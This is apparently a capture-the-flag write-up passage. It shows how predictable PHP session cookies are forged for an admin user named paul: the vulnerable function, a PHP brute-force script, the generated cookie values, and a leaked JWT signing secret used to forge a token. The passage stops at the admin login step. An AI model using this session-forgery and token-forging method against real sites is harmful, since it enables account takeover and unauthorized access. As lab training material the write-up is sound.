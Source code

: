 # Getting initial reverse shell as www-data
## Generating cookie for paul as admin user to upload files
Note: Only paul as admin user can upload files and access file upload page. Cookie is composed of two portions `PHPSESSID` and `JWT Token`.
Source code for generating `PHPSESSID` portion of  cookie is.
```php
<?php
\/**
 * @param string $username  Username requesting session cookie
 *
 * @return string $session_cookie Returns the generated cookie
 *
 * @devteam
 * Please DO NOT use default PHPSESSID; our security team says they are predictable.
 * CHANGE SECOND PART OF MD5 KEY EVERY WEEK
 * *\/
function makesession($username){
    $max = strlen($username) - 1;
    $seed = rand(0, $max);
    $key = "s4lTy_stR1nG_".$username[$seed]."(!528./9890";
    $session_cookie = $username.md5($key);

    return $session_cookie;
}
```
We can write php script to generate `PHPSESSID` portion of cookie for paul.
```php
<?php
$name = "paul";
function makesession($username,$seed){
    $max = strlen($username) - 1;
    $key = "s4lTy_stR1nG_".$username[$seed]."(!528./9890";
    $session_cookie = $username.md5($key);

    return $session_cookie;
}
for($i = 0;$i < strlen($name); $i++){
    echo makesession($name,$i). "\xA";
}
```
Which gives following `PHPSESSID`.
```bash
paula2a6a014d3bee04d7df8d5837d62e8c5
paul61ff9d4aaefe6bdf45681678ba89ff9d
paul8c8808867b53c49777fe5559164708c3
paul47200b180ccd6835d25d034eeb6e6390
```
We also need JWT token as paul cookie which can be generated via following website having secret key as `6cb9c1a2786a483ca5e44571dcc5f3bfa298593a6376ad92185c3258acd5591e`(found in `portal/includes/filecontroller.php`). Webiste for generating [JWT Token](https://jwt.io/).
![[Pasted image 20210730114707.png]]
# Logging in as  paul admin and accessing file upload page